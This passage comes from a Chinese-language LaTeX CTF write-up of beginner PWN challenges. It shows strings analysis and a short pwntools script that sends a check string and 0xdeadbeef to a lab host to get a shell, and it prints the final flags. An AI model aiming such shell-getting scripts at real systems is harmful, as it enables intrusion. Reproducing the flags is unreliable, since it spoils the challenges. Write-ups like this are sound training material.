    
\includegraphics[width=0.95\textwidth]{1.6.png}
    \caption{读取.flag文件获取最终Flag}
\end{figure}
\end{enumerate}

\subsection{最终Flag}
\begin{center}
    \Large flag\{cA7\_7He\_hIdden\_flLe\_t0\_9et\_mY\_fIaG\}
\end{center}

\newpage

% --------------------- PWN 题目：例题-bytes_and_str
\section{题目：例题-bytes\_and\_str}
\subsection{题目分析}
本题考察二进制数据在内存中的存储方式，要求按特定顺序输入字符串与整数，通过校验后获取系统Shell。

\subsection{解题步骤}
\begin{enumerate}
    \item 下载题目附件\texttt{chal.zip}，解压得到可执行文件\texttt{pwn}。
    使用\texttt{strings}命令分析程序中的字符串，获取关键校验信息：
    \begin{lstlisting}[language=bash]
strings pwn
    \end{lstlisting}
    分析结果显示程序要求输入的字符串为\texttt{K3yb0ard}，且后续需发送十六进制数\texttt{0xdeadbeef}。

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{2.1.png}
    \caption{使用strings命令分析程序，获取关键字符串}
\end{figure}

    \item 打开题目页面，点击「创建实例」获取靶机地址与端口：\texttt{10.249.14.223:32846}。

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{2.2.png}
    \caption{题目页面创建实例}
\end{figure}

    \item 编写Python脚本，利用pwntools库实现自动化交互：
    \begin{lstlisting}[language=python]
from pwn import *
# 连接靶机
r = remote("10.249.14.223", 32846)
# 发送校验字符串
r.sendafter(b"string:", b"K3yb0ard")
# 发送校验数字 0xdeadbeef（自动处理为小端序）
r.sendafter(b"number:", p32(0xdeadbeef))
# 进入交互式Shell
r.interactive()
    \end{lstlisting}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{2.3.png}
    \caption{编写Python交互脚本solve.py}
\end{figure}

    \item 在WSL终端运行脚本，成功获取系统Shell并读取Flag：
    \begin{lstlisting}[language=bash]
python3 solve.py
cat flag
    \end{lstlisting}
\end{enumerate}

\subsection{最终Flag}
\begin{center}
    \Large flag\{M3m0rY\_m4P\_Vl3W\_of\_yu4da\_T0pd0wn\_DI4L3ctlC\}
\end{center}

\newpage

% --------------------- PWN 题目：例题-stack_overflow
\section{题目：例题-stack\_overflow}
\subsection{题目分析}
本题考察最基础的栈溢出漏洞，通过溢出缓冲区覆盖栈上的变量，同时满足字符串与数值双重校验条件，最终获取系统Shell。

\subsection{解题步骤}
\begin{enumerate}
    \item 下载题目附件\texttt{chal.zip}，解压得到可执行文件\texttt{pwn}。
    使用\texttt{strings}命令分析程序中的关键字符串，确认校验条件：
    \begin{lstlisting}[language=bash]
strings pwn
    \end{lstlisting}
    分析结果显示，程序要求输入的字符串为\texttt{lalalalahahahaha}，同时需要将变量\texttt{v6}修改为\texttt{0xdeadbeef}。

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{3.1.png}
    \caption{使用strings命令分析程序，获取关键字符串}
\end{figure}

    \item 打开题目页面，点击「创建实例」获取靶机地址与端口：\texttt{10.249.14.223:32847}。

\begin{figure}[H]
    \centering
